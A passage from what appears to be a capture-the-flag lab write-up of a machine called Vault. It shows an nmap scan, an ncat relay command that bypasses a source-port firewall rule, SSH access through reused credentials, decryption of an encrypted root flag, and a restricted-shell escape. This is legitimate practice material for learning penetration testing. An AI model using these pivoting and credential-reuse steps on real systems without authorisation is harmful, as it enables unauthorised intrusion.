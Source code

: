 ```
root@DNS:/var/log# nmap -Pn 192.168.5.2

Starting Nmap 7.01 ( https://nmap.org ) at 2023-01-22 04:06 GMT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for Vault (192.168.5.2)
Host is up (0.0023s latency).
Not shown: 998 filtered ports
PORT     STATE  SERVICE
53/tcp   closed domain
4444/tcp closed krb524
```

Interesting that port 4444 was open. So we can only detect port 987 should our source port be 4444.&#x20;

The solution in this case is to open a random port via `ncat` that would listen to the connection between port 4444 and 987.

```bash
/usr/bin/ncat -l 3333 --sh-exec "ncat -p 4444 192.168.5.2 987"
```

The logs revealed that this could potentially be an SSH service for `dave`, so I tried just that and it worked! The same credentials for `dave` on the DNS server were used.&#x20;

<figure><img src="../../../.gitbook/assets/image (43) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Decrypt Flag

Here, we find an encrypted root flag.

```
dave@vault:~$ ls
root.txt.gpg
dave@vault:~$ file root.txt.gpg
root.txt.gpg: PGP RSA encrypted session key - keyid: 10C678C7 31FEBD1 RSA (Encrypt or Sign) 4096b .
```

Earlier, we found a key with `itscominghome` in it. We just need to import it and decrypt this root flag. The easiest way to do so is to first transfer the file to another machine. There was no `base64`, but there was `base32`.

I transferred this to the `ubuntu` machine because it (probably) had the keys imported and ready to go.

Then, we can use `gpg -d` to decrypt it.

<figure><img src="../../../.gitbook/assets/image (3) (1) (7).png" alt=""><figcaption></figcaption></figure>

Rooted!

## Beyond Root

I wanted to see if it was possible to get a root shell on the Vault. I transferred LinPEAS to the Vault machine. There was a restricted bash shell that could be escaped using `sh`.

One possible attack vector:

<figure><img src="../../../.gitbook/assets/image (45) (4).png" alt=""><figcaption></figcaption></figure>

However, I could not find any other weaknesses within it. I also couldn't run `pspy64` to view any exploitable crons running. Oh well.
